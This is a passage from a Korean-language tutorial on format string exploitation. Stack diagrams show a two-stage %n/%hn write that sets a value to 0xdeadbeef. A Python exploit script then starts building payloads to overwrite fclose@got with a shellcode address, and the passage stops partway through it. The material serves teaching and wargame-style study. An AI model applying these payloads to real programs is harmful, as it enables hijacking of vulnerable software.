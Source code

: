 이번엔 0xbffff7c0 포인터자리에서 %n 포맷스트링을 사용함으로써 0xbffff7c0 메모리에 0x08049ffe라는 주소 값을 덮어썼다. 

### 2-6. Stage1

```assembly
0x08049ffc: 0xdeadffc0 
...
0xbffff740: .......... .......... .......... ..........
0xbffff750: .......... .......... .......... ..........
0xbffff760: .......... 0xbffff804 .......... ..........
0xbffff770: 0xbffff7c0 .......... .......... ..........
0xbffff780: .......... .......... .......... ..........
0xbffff790: .......... .......... .......... ..........
0xbffff7a0: .......... .......... .......... ..........
0xbffff7b0: .......... .......... .......... ..........
0xbffff7c0: 0x08049ffe(%hn) .......... .......... ..........
0xbffff7d0: .......... .......... .......... ..........
0xbffff7e0: .......... .......... .......... ..........
0xbffff7f0: .......... .......... .......... ..........
0xbffff800: .......... 0x08049ffc .......... .......... 
```

Stage1은 Stage0에서 스택에 만들어준 주소 값을 사용해 원하는 주소에 값을 덮어쓰는 과정이다. 아까 전에 만들어준 0x08049ffe자리에서 %hn 포맷스트링을 사용해 해당 주소에 값을 덮어썼다. 

```assembly
0x08049ffc: 0xdeadbeef
...
0xbffff740: .......... .......... .......... ..........
0xbffff750: .......... .......... .......... ..........
0xbffff760: .......... 0xbffff804 .......... ..........
0xbffff770: 0xbffff7c0 .......... .......... ..........
0xbffff780: .......... .......... .......... ..........
0xbffff790: .......... .......... .......... ..........
0xbffff7a0: .......... .......... .......... ..........
0xbffff7b0: .......... .......... .......... ..........
0xbffff7c0: 0x08049ffe .......... .......... ..........
0xbffff7d0: .......... .......... .......... ..........
0xbffff7e0: .......... .......... .......... ..........
0xbffff7f0: .......... .......... .......... ..........
0xbffff800: .......... 0x08049ffc(%hn) .......... ..........
```

이번엔 0x08049ffc자리에서 %hn 포맷스트링을 사용해 해당 주소에 값을 덮어씀으로써 0x08049ffc에 있는 4byte의 데이터를 0xdeadbeef로 조작했다. 

## 3. Exploit

위의 예제를 그대로 익스해보자

( fclose@got 주소는 0x0804a00c 이고 덮어 줄 쉘코드의 주소는 0x804a2a0을 사용할 것이다.)

```python
#!/usr/bin/python

from struct import pack

# fclose@got = 0x0804a00c
# shellcode addr = 0x0804a2a0

stage_0 = ""
stage_0 += "%8x" * 6 		# count = 48 (0x30)
stage_0 += "%134520796x" 	# count = 134520844 (0x0804a00c) ; For fclose@got
stage_0 += "%n"
stage_0 += "%c" * 2 		# count = 134520846 (0x0804a00e) ; For fclose@got + 2
stage_0 += "%n"

stage_1 = ""
```